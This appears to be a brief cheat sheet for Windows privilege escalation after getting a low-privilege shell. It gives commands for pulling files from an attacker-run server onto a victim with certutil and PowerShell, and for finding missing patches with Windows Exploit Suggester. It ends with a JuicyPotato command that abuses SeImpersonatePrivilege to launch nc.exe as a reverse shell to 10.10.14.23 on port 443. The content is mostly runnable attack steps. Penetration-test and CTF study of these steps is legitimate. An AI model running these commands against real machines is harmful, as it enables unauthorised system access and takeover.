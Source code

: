 This post's content is about when you get a low, unprivileged shell on a Windows Machine.
First and foremost thing is to upload files on the system.
### Steps:
    Start server on attacker machine:
    >python3 -m http.server 80 #on attacker machine
    On victim machine:
    1)Using certutil.exe
    >certutil.exe -urlcache -split -f http://<ip><port>/path/to/file
    2)Using powershell
    >powershell -c (New-Object Net.WebClient).DownloadFile('http://ip-addr:port/file', 'output-file')

Easy way to check for privilege escalation vulnerabilties is to use [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) 
Steps to use Windows-Exploit-Suggester
### Steps:
    On attacker machine:
    Install xlrd python library.
    >python windows-exploit-suggester.py -update #this will create a .xls file which will contain all ms cve's   
    On victim MS machine, run systeminfo to fetch system information, and save it locally on attacking machine as sys.txt.
    Then on attacking machine use
    >python windows-exploit-suggester.py --database file.xls --systeminfo sys.txt
    It will list all the vulnerabilties. 
    Note: [E] means Exploitdb, [M] means metasploitable

Privilege exploitation
### ?
    whoami /priv ->lists privileges current user has

### Some privileges if enables to exploit
    1) SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
       If this is Enabled then you are the SYSTEM.
       List of CLDIS-> https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
       juicypotato.exe -l 1234 -p nc.exe -a "-e cmd.exe 10.10.14.23 443" -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820} #Enter CLDIS

